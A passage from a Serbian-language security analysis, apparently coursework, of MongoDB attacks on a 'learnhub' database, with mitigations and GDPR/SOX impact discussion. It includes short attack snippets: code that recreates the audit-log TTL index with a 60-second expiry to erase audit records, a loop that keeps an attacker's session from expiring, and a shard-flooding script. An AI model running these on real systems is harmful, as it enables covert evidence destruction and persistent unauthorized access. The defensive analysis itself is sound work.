### Strategija A --- uklanjanje dokaza

Napadač briše postojeći TTL indeks nad audit log kolekcijom i kreira
novi sa vrlo kratkim vremenom isteka. U roku od 1--2 minuta svi stari
audit zapisi bivaju trajno obrisani.
```
// Uklanjanje audit tragova:
db.audit_logs.dropIndex('timestamp_1')

db.audit_logs.createIndex(
  { timestamp: 1 },
  { expireAfterSeconds: 60 }
)
```
Rezultat: kompletna istorija aktivnosti nestaje veoma brzo sa svih
replika.

### Strategija B --- perzistentni pristup

Napadač održava sopstvenu sesiju aktivnom stalnim resetovanjem timestamp
polja, čime neutralizuje automatski logout mehanizam.
```
import time

while True:
    db.sessions.update_many(
        {'user_id': attacker_id},
        {'$set': {'last_active': datetime.utcnow()}}
    )
    time.sleep(1800)
```
Efekat: sesija nikada ne ističe i omogućava dugotrajan neovlašćen
pristup.

**3) Mitigacija**

Ključna mera zaštite je primena **custom MongoDB role** koja ne sadrži
privilegije za modifikaciju indeksa (createIndex, dropIndex, collMod).
Promene indeksa treba ograničiti isključivo na DBA uloge uz stroge
procedure odobravanja.
```
// Custom rola bez indeks privilegija:
db.createRole({
  role: 'appUser',
  privileges: [{
    resource: { db: 'learnhub', collection: '' },
    actions: ['find', 'insert', 'update', 'remove']
  }],
  roles: []
})
```
Takođe je neophodno uvesti **monitoring promena indeksa** i generisati
alert za svaku createIndex ili dropIndex operaciju.
```
db.setProfilingLevel(1, { slowms: 0 })
```

Audit logovi i compliance-kritični podaci treba da budu **replicirani u
eksterni sistem** (npr. SIEM ili syslog server) koji nije pod kontrolom
MongoDB baze, kako bi se sprečila manipulacija TTL politikama. Ovo je
posebno važno za regulatornu usklađenost poput GDPR i SOX standarda.

**4) Identifikacija pretnje i bezbednosne posledice**

Napad direktno narušava osnovne bezbednosne ciljeve kroz manipulaciju
**retention politike** i automatskog brisanja podataka, što može dovesti
do trajnog gubitka compliance-kritičnih informacija:

-   **Poverljivost (Confidentiality):** produžen ili uklonjen TTL
    zadržava podatke koji bi trebalo da budu obrisani prema GDPR ili
    internim politikama, čime se povećava period izloženosti u slučaju
    budućih napada ili kompromitacije. Sesijski tokeni koji nikada ne
    ističu omogućavaju napadaču dugotrajan pristup resursima korisnika
    čak i nakon suspenzije naloga. Narušeni standardi: **GDPR član 17**
    (pravo na brisanje) i **GDPR član 5** (ograničenje čuvanja).

-   **Integritet (Integrity):** preuranjeno brisanje putem TTL
    manipulacije ostavlja organizaciju u situaciji da veruje da su
    podaci retention-compliant, dok audit istorija više ne postoji. Time
    se stvara lažna slika stanja sistema. Mogu biti narušeni standardi
    poput **SOX** (finansijski audit trail), **HIPAA** (medicinski audit
    zapisi) i **GDPR član 30** (evidencija aktivnosti obrade).

-   **Dostupnost (Availability):** agresivno skraćivanje TTL-a može
    dovesti do preuranjenog brisanja aktivnih sesija, transakcija ili
    OTP tokena, što uzrokuje neočekivane logout-e i prekide servisa.
    Brisanje session kolekcija može prisiliti sve korisnike na ponovnu
    autentifikaciju.

-   **Detekcija incidenta:** modifikacija TTL indeksa je administrativna
    operacija koja se ne beleži u standardnim aplikacionim logovima.
    Jedini trag može biti vidljiv u MongoDB audit logu (ako je uključen)
    ili u runtime operacionim zapisima tokom izvršavanja. Uništeni audit
    logovi dodatno onemogućavaju naknadnu forenzičku analizu i
    regulatorno prijavljivanje incidenta.

## Napad 6: Sharded Cluster Balancer Exploitation

**1) Komponenta sistema i suština ranjivosti**

Ranjivost je vezana za MongoDB **sharding arhitekturu**, konkretno za
ponašanje *balancer* procesa tokom migracije chunk-ova. U sharded
cluster-u, kolekcija je horizontalno podeljena na logičke jedinice zvane
**chunks**, gde svaki chunk predstavlja raspon vrednosti shard ključa i
fizički se nalazi na jednom shard-u. Svaki shard je replica set, dok
infrastrukturu dopunjuju **Config Server Replica Set (CSRS)** koji čuva
metadata i **mongos** instance koje rade kao query routeri.

Sharding balancer je background proces koji radi na Primary čvoru Config
Servera. Periodično proverava raspodelu chunk-ova između shard-ova i,
kada detektuje neravnotežu, automatski pokreće **moveChunk** operaciju.
Ova operacija prolazi kroz više faza: kloniranje podataka na destination
shard, catch-up sinhronizaciju promena, kritičnu sekciju u kojoj se
blokiraju write operacije, commit fazu ažuriranja metadata i završnu
cleanup fazu brisanja stare kopije.

Suština ranjivosti leži u **race condition-ima** tokom ovih faza.
Postoji kratki *visibility gap* između commit i cleanup faze kada upiti
mogu dobiti duplikatne ili zastarele rezultate. Još ozbiljniji problem
su **orphaned documents** --- delimično migrirani podaci koji ostanu na
destination shard-u nakon prekida migracije i koji nisu evidentirani u
metadata, ali fizički postoje i mogu biti vraćeni pri direktnom pristupu
shard-u.

**2) Opis napada**

Napad koristi mogućnost da napadač veštački izazove intenzivno
balansiranje, a zatim eksploatiše race condition tokom migracija.
Strategija se zasniva na generisanju velikog broja upisa unutar istog
shard-key raspona kako bi se stvorio neravnomeran raspored podataka.
```
# Flood jednog shard-a:
import random

for i in range(50000):
    db.enrollments.insert_one({
        'student_id': random.randint(0, 5000),
        'course_id': 999
    })
```
Rezultat je neravnoteža chunk-ova koja pokreće intenzivne migracije.
Napadač zatim šalje konkurentne upite tokom aktivne migracije i dobija
nedosledne rezultate --- dokument može biti nevidljiv, vraćen kao
zastareo ili dupliran.

Ako napadač ima mrežni pristup shard-ovima, može direktno pristupiti
destination shard-u i dobiti duplikate zbog orphaned dokumenata.
```
direct = MongoClient('shard1:27017')
results = list(direct.learnhub.enrollments.find({'student_id': 2500}))
```
Ovakvi duplikati mogu izazvati ozbiljne posledice poput duplih
finansijskih transakcija ili pogrešnog poslovnog stanja.

**3) Mitigacija**

Osnovna mera zaštite je ograničiti balancer aktivnost na **maintenance
window** kada je opterećenje sistema minimalno, čime se smanjuje
verovatnoća race condition-a. Takođe, povećanje veličine chunk-a
smanjuje broj migracija, dok redovno čišćenje orphaned dokumenata treba
da bude deo održavanja sistema.
```
db.settings.update(
  {_id: 'balancer'},
  {$set: {activeWindow: {start: '02:00', stop: '06:00'}}}
)
```

```
db.settings.save({_id: 'chunksize', value: 128})
```

```
db.adminCommand({
  cleanupOrphaned: 'learnhub.enrollments',
  startingFromKey: {student_id: 0}
})
```

Za kritične upite preporučuje se korišćenje **readConcern majority** i
čitanje sa PRIMARY čvora, čime se obezbeđuje pristup samo autoritativnim
podacima. Monitoring aktivnih migracija i generisanje upozorenja pri
velikom broju simultanih moveChunk operacija omogućava pravovremenu
reakciju administratora.

**4) Identifikacija pretnje i bezbednosne posledice**

Napad direktno narušava osnovne bezbednosne ciljeve kroz eksploataciju
**race condition-a** koji nastaju tokom normalnog balansiranja sharded
cluster-a:

-   **Poverljivost (Confidentiality):** tokom migration window-a, upiti
    mogu čitati zastarele verzije dokumenata koje su već ažurirane na
    source shard-u, ali su kopirane u starijem stanju na destination
    shard. Ovo je posebno rizično za osetljive podatke koji se često
    menjaju (npr. kontakt informacije ili statusi). Time se narušava
    princip tačnosti podataka, definisan u **GDPR članu 16**.

-   **Integritet (Integrity):** orphaned dokumenti stvaraju logičke
    duplikate koji mogu dovesti do duplog naplaćivanja, dvostrukog
    izdavanja sertifikata ili nekonzistentnih evidencija napretka. Ne
    postoji automatski mehanizam koji može pouzdano odrediti koja je
    kopija autoritativna, što može dovesti do trajne nekonzistentnosti
    između sistema.

-   **Dostupnost (Availability):** agresivno balansiranje sa više
    paralelnih migracija može izazvati zasićenje mreže, visok disk I/O i
    iscrpljivanje connection pool-a. Latencija upita može višestruko
    porasti, što rezultuje timeout-ima i prekidima servisa za legitimne
    korisnike.

-   **Detekcija incidenta:** orphaned dokumenti ne generišu greške niti
    upozorenja u standardnim logovima. Ponašaju se kao validni zapisi i
    vidljivi su samo pri direktnom pristupu shard-u, zaobilazeći mongos.
    Zbog toga ranjivost može dugo ostati neprimećena, dok sistem spolja
    deluje funkcionalno.
